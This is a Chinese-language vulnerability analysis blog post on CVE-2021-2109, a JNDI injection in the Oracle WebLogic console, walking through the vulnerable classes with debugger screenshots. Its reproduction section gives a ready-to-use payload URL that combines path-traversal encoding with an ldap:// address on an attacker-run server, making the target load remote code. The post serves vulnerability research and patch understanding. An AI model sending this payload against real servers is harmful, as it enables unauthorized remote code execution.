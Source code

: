 # CVE-2021-2109 WebLogic-JNDI注入

  
  
&lt;!--more--&gt;  
## 0x01 环境搭建  
https://www.penson.top/article/av40  
手动添加  
`\server\lib\consoleapp\webapp\WEB-INF\lib\console.jar` 到依赖里面  
## 0x02 漏洞分析与复现  
`Oracle WebLogic Server 10.3.6.0.0, 12.1.3.0.0, 12.2.1.3.0, 12.2.1.4.0, 14.1.1.0.0。`  
拥有访问`/console/consolejndi.portal`页面的用户权限，或者存在`CVE-2020-14883`未授权访问漏洞。  
### 漏洞原理  
`Weblogic`的`/console/consolejndi.portal`接口可以调用存在JNDI注入漏洞的`com.bea.console.handles.JndiBindingHandle`类，从而造成`RCE`  
### 漏洞复现  
payload如下  
```  
http://127.0.0.1:7001/console/css/%252e%252e%252fconsolejndi.portal?_pageLabel=JNDIBindingPageGeneral&amp;_nfpb=true&amp;JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://10.216.7;79:1389/k4gmvl;AdminServer%22)  
```  
本地启动一个服务  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409041500659.png)
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409041500409.png)
### 漏洞分析  
根据`payload`分析，先从`consolejndi.portal`开启看起，`.portal`文件就类似于一个`servlet`，在`consolejndi.portal`中存在`JNDI Binding`操作的处理容器，如图  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409041527096.png)
具体的处理逻辑在`PortalConfig/jndi/jndibinding.portlet`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409041528168.png)
在`com.bea.console.actions.jndi.JNDIBindingActioncom.bea.console.actions.jndi.JNDIBindingAction`类中，发现存在`execute`方法，存在JNDI注入漏洞  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409041530621.png)
观察需要如何构造恶意payload，c是由`ConsoleUtils.initNamingContext(serverMBean);`赋值，而`serverMBean`是通过`domainMBean.lookupServer(serverName);`赋值，其中一系列关系如下  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409041531738.png)
先是强转了一个JndiBindHandle类，这里面`getHandleContext()`的逻辑并不复杂，最终会调用`JndiBindingHandle`的构造函数。  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409041626033.png)
如图，我们在paylad当中的一段被放进了构造函数的`type`和`objectIdentifier`中，而`&#34;ldapxxxx&#34;`这一段会被放在`components`中，由分号分隔  
`JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(&#34;ldap://10.216.7;79:1389/k4gmvl;AdminServer&#34;)`  
继续往下看，想要进入JNDI注入的那一段代码，需要满足两个条件，一个是`serverMBean != null`，另一个是`c != null`，进到`serverMBean`看一下代码逻辑  
- `lookupServer` 是 `DommainMBean` 接口的方法，我们去看它的实现类  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409041632731.png)
实际上这里是动态代理类调用的，会自动跟进到`weblogic.management.jmx.MBeanServerInvocationHandler#invoke`下，其中`method`的值为`weblogic.management.configuration.DomainMBean#lookupServer`，他的`method`代码逻辑在实现类当中，也就是`weblogic.management.configuration.DomainMBeanImpl#lookupServer`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409041633029.png)
走到do while的逻辑里面，返回var3，而不是返回null  
通过调试得到`var2`的值为`AdminServer`，这里没有其他值了，  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409041639459.png)
所以要求我们此处输入的`var1`与`AdminServer`相同，回去看`var1`是什么，`var1`其实是`serverName`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409041642002.png)
发现`serverName`也是可控的  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409041642585.png)
现在 `serverBean != null` 没问题，就要看 JNDI lookup 的地址是否可控。  
很明显JNDI lookup的地址也是可控的  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409041644847.png)
进入到`JndiBindingHandle`类看一下，`set/getComponents()`的逻辑，先调用了`HandleImpl#getComponent`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409041645451.png)
跟进  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409041646662.png)
主要逻辑就是以`;`分隔，就可控`context`与`binding`，就可以进行JNDI注入  
1、`;`号隔开JNDI地址  
2、serverName必须为`AdminServer`  
  

---

> Author: N1Rvana  
> URL: http://localhost:1313/cve-2021-2109-weblogic-jndi-%E6%B3%A8%E5%85%A5/  

